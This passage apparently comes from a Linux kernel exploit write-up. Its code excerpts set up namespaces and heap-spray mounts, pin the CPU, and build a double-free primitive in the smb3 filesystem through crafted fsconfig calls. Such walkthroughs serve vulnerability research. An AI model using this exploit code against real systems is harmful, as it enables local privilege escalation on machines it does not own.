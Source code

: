 - Create and enter user/mount namespace with unshare syscall. This is necessary to trigger the vulnerability of the smbfs subsystem as an unprivileged user and mount useful filesystem.
- Create IPC namespace. This is necessary to allocate more `struct shm_file_data` objects in jail.
- Mount tmpfs filesystem which can be used to allocate `struct simple_xattr` object.
- Mount overlayfs filesystem which can be used to allocate `struct ovl_dir_file` object.

### Step1.3: Pinning the CPU
- [exploit.c#L890](./exploit.c#L890):

```c
if (!pin_on_cpu(0))
  return EXIT_FAILURE;
```

- [exploit.c#L491](./exploit.c#L491):

```c
bool pin_on_cpu(int core_id)
{
  cpu_set_t cpuset;
  CPU_ZERO(&cpuset);
  CPU_SET(core_id, &cpuset);
  if (sched_setaffinity(0, sizeof(cpu_set_t), &cpuset) < 0) {
    fprintf(stderr, "pin_on_cpu failed: %s\n", strerror(errno));
    return false;
  }

  return true;
}
```

- Pinning the current task into CPU core 0 with `sched_setaffinity` syscall. This is to maintain the exploit context in the same core to utilize percpu slab cache and freelist.

## Step2: Build double free primitive
The primitive can be built by splitting the process to three steps:
  1. Allocate vulnerable object.
  2. Free vulnerable object the first time.
  3. Free vulnerable object the second time.

### Step2.1: Allocate vulnerable object
- Exploit code [exploit.c#L569](./exploit.c#L569): 

```c
int prepare_double_free(int kmalloc_size)
{ 
  if (kmalloc_size <= 0 || kmalloc_size > 256)
    return -1;
  
  int fsfd = syscall(SYS_fsopen, "smb3", 0);
  if (fsfd < 0) {
    fprintf(stderr, "fsopen(smb3) failed: %s\n", strerror(errno));
    return -1;
  }

  char password[256];
  memset(password, 0x1, kmalloc_size - 1);
  password[kmalloc_size-1] = 0;
  if (syscall(SYS_fsconfig, fsfd, FSCONFIG_SET_STRING, "password", password, 0) < 0) {
    perror("fsconfig(FSCONFIG_SET_STRING)");
    close(fsfd);
    return -1;
  }

  return fsfd;
}
```